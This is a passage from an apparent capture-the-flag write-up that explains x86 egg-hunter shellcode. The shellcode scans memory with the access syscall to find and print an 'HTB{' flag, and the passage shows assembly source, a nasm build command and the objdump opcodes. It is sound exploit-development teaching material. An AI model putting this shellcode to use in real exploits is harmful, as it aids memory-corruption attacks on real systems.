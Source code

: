 ```asm
    mov ecx, edx                ; if we find our egg we put it in ecx for write argument below (arg 2)
    push 0x24                   ; length of the flag (arg 3)
    pop edx                     
    push 0x1                    ; 1 representing stdout (arg 1)
    pop ebx
    mov al, 0x4                 ; write sycall number in x32 bytes
    int 0x80                    ; call to write via interrupt to print the flag
```
Some explanations are in order:

We first begin by writing the pattern of the and egg to search for representing `HTB{` (reversed because of little endian so `{BTH`) and we put it on the EDI register to be used after. As we know that the flag is set in an address located by the `get_random_addr` function, we can set the start address at `0x5FFFFFFF` and move forward from there. 

We then initialize two functions, the first one is `next_page` and the second `next_addr`. 

The first function, `next_page` does a page increment. Skape explains in his paper that if the `access` syscall returns a `EFAULT` error, it must by an invalid memory address. And because of the 4KB paging in memory, it assumes that all addresses inside the page are invalid. 

The second, `next_addr`, calls for `access` syscall, if it returns an error, we move to the next page, if not we check if the egg is in the address searched. 

If the egg is not in the address we move to the next, else we print everything we the length of the flag. 

### preparing the exploit

Let's begin by compiling this code into an object file :
```bash
$ nasm -f elf32 -o egg_hunting.o egg_hunting.asm
```

We can view the assembly of the file by using objdump, 
```bash

$ objdump -d egg_hunter_shellcode.o

egg_hunter_shellcode.o:     file format elf32-i386

Disassembly of section .text:

00000000 <_start>:
    0:   bf 48 54 42 7b          mov    $0x7b425448,%edi
    5:   ba ff ff ff 5f          mov    $0x5fffffff,%edx

0000000a <next_page>:
    a:   66 81 ca ff 0f          or     $0xfff,%dx

0000000f <next_address>:
    f:   42                      inc    %edx
    10:   60                      pusha
    11:   8d 5a 04                lea    0x4(%edx),%ebx
    14:   b0 21                   mov    $0x21,%al
    16:   cd 80                   int    $0x80
    18:   3c f2                   cmp    $0xf2,%al
    1a:   61                      popa
    1b:   74 ed                   je     a <next_page>
    1d:   39 3a                   cmp    %edi,(%edx)
    1f:   75 ee                   jne    f <next_address>
    21:   89 d1                   mov    %edx,%ecx
    23:   6a 24                   push   $0x24
    25:   5a                      pop    %edx
    26:   6a 01                   push   $0x1
```